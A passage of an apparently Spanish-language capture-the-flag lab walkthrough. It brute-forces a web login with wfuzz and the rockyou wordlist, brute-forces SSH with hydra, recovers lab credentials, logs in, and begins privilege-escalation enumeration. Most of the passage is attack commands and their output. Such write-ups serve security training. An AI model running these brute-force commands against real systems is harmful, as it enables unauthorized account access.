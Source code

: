 ```bash
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt \
  -d "username=admin&password=FUZZ" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=" \
  -u http://172.17.0.2/login.php \
  --hh=2848
```

Resultado:

```
Payload: chocolate
```

---

## Fuerza bruta por SSH
Sabiendo un nuevo usuario que nos ha dado la página al hacer login `balutin`:
```bash
hydra -l balutin -P /usr/share/wordlists/rockyou.txt -t 16 -V -f -I ssh://172.17.0.2
```

```
[22][ssh] host: 172.17.0.2   login: balutin   password: estrella
```

Nos conectamos:

```bash
ssh balutin@172.17.0.2
```

---

# FASE ESCALADA DE PRIVILEGIOS

Comprobamos grupos:

```bash
id
```

```
uid=1000(balutin) gid=1000(balutin) groups=1000(balutin),100(users)
```

Nada especial. 

Comprobamos kernel:

```bash
uname -a
```

```
Linux 28a4c6e82f24 6.12.33+kali-amd64 ...
```
